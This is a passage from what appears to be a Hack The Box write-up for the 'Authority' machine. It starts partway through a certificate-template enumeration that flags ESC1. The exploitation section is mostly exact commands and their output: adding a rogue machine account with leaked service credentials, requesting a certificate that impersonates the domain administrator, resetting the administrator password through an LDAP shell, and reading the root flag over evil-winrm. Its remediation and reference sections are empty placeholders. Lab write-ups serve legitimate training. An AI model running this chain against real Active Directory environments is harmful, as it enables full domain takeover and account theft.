    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

### Exploitation

domain computers have enrollment rights so a new computer can be added

```shell
impacket-addcomputer -computer-name 'PWN$' -computer-pass 'Password123!' -dc-ip 10.129.229.56 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account PWN$ with password Password123!.
```

```
certipy-ad req \
  -u 'PWN$@authority.htb' -p 'Password123!' \ 
  -dc-ip 10.129.229.56 -target authority.htb \
  -ca 'AUTHORITY-CA' -template 'CorpVPN' \
  -upn 'administrator@authority.htb' \
  -sid 'S-1-5-21-622327497-3269355298-2248959698-500'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate object SID is 'S-1-5-21-622327497-3269355298-2248959698-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
                                                                                                                      
┌──(kali㉿kali)-[~/machines/authority]
└─$ 

```

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.56        
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN URL SID: 'S-1-5-21-622327497-3269355298-2248959698-500'
[*]     Security Extension SID: 'S-1-5-21-622327497-3269355298-2248959698-500'
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information

```

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.56 -ldap-shell
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN URL SID: 'S-1-5-21-622327497-3269355298-2248959698-500'
[*]     Security Extension SID: 'S-1-5-21-622327497-3269355298-2248959698-500'
[*] Connecting to 'ldaps://10.129.229.56:636'
[*] Authenticated to '10.129.229.56' as: 'u:HTB\\Administrator'
Type help for list of commands

# change_password administrator "Password123!"
Got User DN: CN=Administrator,CN=Users,DC=authority,DC=htb
Attempting to set new password of: Password123!
Password changed successfully!

# exit
Bye!
                                              
```

### root flag

```
evil-winrm -i authority.htb -u 'Administrator' -p 'Password123!'               
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                                                            
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e59958e37b3976514d904d4e4973eefa
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```

---
## Remediation

- Key takeaway 1
- Key takeaway 2
- Key takeaway 3

---
## References

- [Reference 1](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)
- [Reference 2](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)